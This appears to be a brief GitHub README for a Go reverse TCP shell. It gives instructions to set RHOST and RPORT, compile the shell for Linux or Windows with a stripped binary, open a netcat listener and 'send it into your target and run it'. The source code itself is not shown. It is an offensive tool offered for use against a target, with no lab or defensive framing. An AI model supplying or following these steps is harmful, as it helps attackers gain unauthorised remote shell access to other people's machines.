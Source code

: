## GO REVERSE TCP
- Change value of RHOST and RPORT with Your Own
- Make Sure you have installed Golang
- Run Command For Linux Based ````go build go-reverseunixtcp.go````
- Run Command For Windows Based ````GOOS=windows go build -o go-reversewindowstcp.exe -ldflags="-s -w" go-reversewindowstcp.go````
- You must take the network listen just like ````nc -nvlp [your rport settings]````
- Send it Into your target and run it 
